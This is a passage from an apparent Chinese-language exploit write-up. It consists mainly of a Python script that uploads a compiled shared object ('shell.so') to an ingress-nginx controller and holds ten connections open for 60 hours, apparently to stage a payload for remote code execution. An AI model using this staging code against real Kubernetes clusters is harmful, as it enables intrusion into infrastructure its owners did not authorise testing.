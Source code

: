 当我用脚本上传的时候，还是没问题的

```
# uploader.py
import asyncio
import httpx

# 上传目标地址
url = "http://ingress-nginx-controller.ingress-nginx.svc/fake/addr"

# 加载 shellcode 文件
with open("shell.so", "rb") as f:
    shellcode = f.read()

# 定义伪异步上传数据生成器
class FakeIterator:
    def __init__(self):
        self.done = False

    async def __aiter__(self):
        yield shellcode
        await asyncio.sleep(60 * 60 * 60)  # 保持连接 60 小时

# 上传逻辑
async def upload():
    async with httpx.AsyncClient() as client:
        res = await client.post(
            url,
            data=FakeIterator(),
        )
        print("Posting done")

# 主程序：启动多个上传任务
if __name__ == "__main__":
    loop = asyncio.get_event_loop()
    loop.run_until_complete(
        asyncio.gather(*[upload() for _ in range(10)])
    )

```

![image-20250702202942838](images/23.png)
